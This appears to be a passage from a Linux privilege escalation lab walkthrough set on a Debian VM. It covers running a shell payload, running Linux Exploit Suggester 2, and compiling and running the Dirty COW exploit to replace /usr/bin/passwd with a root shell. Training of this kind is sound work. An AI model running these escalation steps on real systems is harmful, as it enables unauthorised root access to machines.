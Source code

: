 Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

```bash
/tmp/shell.elf
```

## 20. Kernel Exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

Run the **Linux Exploit Suggester 2** tool to identify potential kernel exploits on the current system:

```bash
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at **/home/user/tools/kernel-exploits/dirtycow/c0w.c**. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

Compile the code and run it (note that it may take several minutes to complete):

```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

Once the exploit completes, run /usr/bin/passwd to gain a root shell:

```bash
/usr/bin/passwd
```

## 21. Privilege Escalation Scripts

Several tools have been written which help find potential privilege escalations on Linux. Check the **[tools/](tools/)** directory for a list of toothesels.
